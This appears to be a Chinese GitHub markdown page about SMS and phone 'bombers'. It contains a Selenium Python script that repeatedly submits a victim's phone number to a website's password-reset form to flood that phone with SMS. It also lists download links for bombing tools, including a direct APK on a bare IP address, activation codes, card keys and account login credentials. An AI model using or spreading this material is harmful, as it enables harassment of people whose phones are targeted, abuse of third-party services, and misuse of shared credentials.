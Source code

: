 
### 引入webdriver
 
    from selenium import webdriver
    
    self.options = webdriver.FirefoxOptions()
            # self.options.add_argument('--headless') # 后台模式
            
### 模拟打开浏览器

    # 
    def func0(self):
        browser = webdriver.Firefox(firefox_options=self.options)
        browser.implicitly_wait(8)
        browser.get('https://codemart.com/password')
        browser.implicitly_wait(8)
        browser.find_element_by_xpath('//*[@id="container"]/div/div/div/div[2]/div/div/form/div/button[1]').click()
        browser.find_element_by_xpath('//*[@id="container"]/div/div/div/div[2]/div/div/form/div/div[2]/div[1]/input').send_keys(self.phone)
        browser.find_element_by_xpath('//*[@id="container"]/div/div/div/div[2]/div/div/form/div/div[2]/div[1]/div[3]').click()
        browser.implicitly_wait(1)
        browser.quit()




### 短信轰炸机
    
    https://www.lanzous.com/i2qmg9a  海盗SMS1.0.2
    
    SXZ9AUVGVCJC 激活码

### 电话轰炸机

    http://www.yunhu121.com/download.php?u=370268f2ff56c936692e9816a6b4e15c
    
    FN0002272159X188NUIBHODTM


    APP下载链接
    http://185.243.56.143/440049.apk
    类型：31天会员卡;
    卡密：gMV7j1lFpCQYHID5
    
### 代理轰炸机

    http://www.yunhu121.com/index.php?g=proxy&m=passport&a=Login
    
    A00000877C0F86
    86581214Abc
    abc1234
    默认
    
    
    下载链接
    http://t.cn/EqKkMAm
    
    
###  轰炸机调查

    http://www.duanxinhongzhaji.com/
    http://www.duanxinhongzha.com/sms/
    
    http://www.yizhihu.top/
    http://duanxin.abco.wang/
    http://zha.vvoso.com/index.php
    
### 发卡平台
    
    https://www.toolv.cn/tool/baiduyun/
    
        